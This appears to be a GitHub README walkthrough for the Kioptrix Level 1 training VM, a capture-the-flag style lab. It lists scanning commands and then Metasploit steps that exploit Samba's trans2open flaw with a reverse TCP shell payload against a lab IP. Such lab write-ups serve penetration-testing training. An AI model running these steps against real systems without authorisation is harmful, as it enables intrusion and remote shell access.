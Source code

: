# Kioptrix-Level-1
Join me as we embark on a journey through this virtual labyrinth, where we'll uncover vulnerabilities, exploit weaknesses, and ultimately conquer the system.
# 1. Reconnaissance:
```bash
  arp-scan -l  Or  sudo netdiscover
```
## Employed Nmap to identify open ports and services. 
```bash
 nmap -sV -A  <Enter Kioptrix IP (10.0.2.5)> Or sudo nmap kioptrix -sV -p- -O -T4 -oN nmap <Enter Kioptrix IP (10.0.2.5)>
```
## For nikto scan 
```bash
nikto http://10.0.2.5
```
# 2. Vulnerability Identification:
To find vulnerabilities , we need to know the samba version :

The searchsploit command is designed to uncover valuable information within the Exploit Database: 
```bash
searchsploit samba
```
# 3. Exploitation:
## The following commands can be used to launch Metasploit.
execute 
```bash 
sudo msfconsole
```
## Then we search the vulnerability and configure options for exploitation.
```bash
search samba version 
```
## Use 
```bash 
exploit/linux/samba/trans2open
```
We can use options command to see the options.

```bash
Options
```
We can use options command to see the options.

## Use:-
msf exploit(linux/samba/trans2open) >

```bash
set RHOST <target Ip(10.0.2.5)>
```

msf exploit(linux/samba/trans2open) > 
```bash 
set RPORT 139
```
msf exploit(linux/samba/trans2open) > 
```bash
set payload linux/x86/shell_reverse_tcp
```
msf exploit(linux/samba/trans2open) > 
```bash 
exploit
```

# Congratulations, you've conquered Kioptrix Level 1!





